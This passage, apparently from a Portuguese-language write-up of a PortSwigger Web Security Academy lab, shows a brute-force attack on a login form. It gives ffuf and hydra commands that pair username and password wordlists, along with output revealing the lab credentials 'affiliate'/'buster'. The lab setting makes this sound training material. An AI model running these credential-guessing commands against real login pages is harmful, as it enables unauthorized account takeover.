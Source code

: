como visto acima, não é possível encontrar as credenciais apenas comparando o tamanho das respostas, então vamos filtrar pela `status code` da requisição pois, todos os usuários que não existem retornam o código `200`. Para fazer isso basta utilizar a flag `-fc`:

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/portswigger                                                         03:05:14
╰──➤ ffuf -w users.txt:USERS -w pass.txt:PASS -X POST -d "username=USERS&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -u https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login -fc 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login
 :: Wordlist         : USERS: users.txt
 :: Wordlist         : PASS: pass.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USERS&password=PASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 249ms]
    * USERS: affiliate
    * PASS: buster

[WARN] Caught keyboard interrupt (Ctrl-C)

```

Agora sim, conseguimos encontrar as credenciais do usuário `affiliate` com a senha `buster`.

Também daria para conseguir o mesmo resultado utilizando o hydras, porém, o ffuf é mais rápido e mais fácil de utilizar. O diferencial do hydra é que você pode configurar uma flag de parada `-f` e uma frase `Invalid username or password` que é a frase que ocorre quando as credenciais estão incorretas, para que ele pare de testar quando encontrar a combinação correta.

```bash

hydra -L users.txt -P pass.txt https-post-form://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login:"username=^USER^&password=^PASS^:Invalid username or password" -f -t 40

```

